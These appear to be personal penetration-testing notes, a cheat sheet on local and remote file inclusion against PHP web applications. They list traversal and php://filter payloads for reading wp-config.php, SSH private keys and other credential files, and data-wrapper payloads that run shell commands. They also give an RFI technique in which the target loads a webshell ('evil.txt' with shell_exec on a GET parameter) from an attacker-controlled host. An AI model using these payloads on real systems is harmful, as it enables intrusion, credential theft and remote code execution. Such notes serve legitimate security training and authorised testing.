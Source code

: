 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/
https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html

#### LFI
Also try [[5_Contaminating Log Files]]

#### LFISuite - works with cookies!
```bash - kali
git clone https://github.com/D35m0nd142/LFISuite && cd LFISuite
```

```bash - kali
python lfisuite.py
```

Windows wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Windows-files.txt
```

Linux wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Linux-files.txt
```

#### PHP Wrappers

```bash
http://$TARGET/menu.php?file=data:text/plain,hello world
```

```bash
http://$TARGET/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

[[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]
[[4._File Transfers]]
[[0._PHP_Webshells#PHP]]

---
#### Apache default config file location <<<<<<<<<<<
```
/etc/apache2/sites-available/000-default.conf
```

```
/etc/apache2/sites-enabled/000-default.conf
```

Can you download the source code?  Then just find / grep for password file locations!

==TRY TO GET /home/USER/.ssh/id_rsa==
```
/home/user/.ssh/authorized_keys
```

```
/home/user/.ssh/id_rsa
```

```
/home/user/.ssh/id_rsa.pub
```

```
/home/user/.bash_history
```

```
/var/www/html/wp-config.php
```

#### Webdav creds
```
/var/www/html/webdav/passwd.dav
```

#### Wordpress config.php

Windows location:
```bash - kali
..\..\..\..\..\..\xampp\htdocs\blog\wp-config.php
```

```bash - kali
..\..\..\..\..\..\var\www\html\wordpress\wp-config.php
```

#### PHP  base64 convertor
```bash - kali
?page=php://filter/convert.base64-encode/resource=/../../../../../../../../../../var/www/html/wordpress/wp-config.php
```

#### RFI
==Remember for RFI, the file has to be txt!==

WWOLF:

[[0._PHP_Webshells#wwolf]]

Save as webshell.txt

```
http://$TARGET/image.php?img=http://$KALI/webshell.txt
```

![[Pasted image 20220329093728.png]]

evil.txt:
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```
http://$TARGET/menu.php?file=http://$KALI/evil.txt&cmd=ipconfig
```

#### Terminators
Null byte:
```
%00
```

```
?
```

![[Pasted image 20220506120304.png]]

Just by adding a question mark on this example, we got our webshell to work.

![[Pasted image 20220506120325.png]]

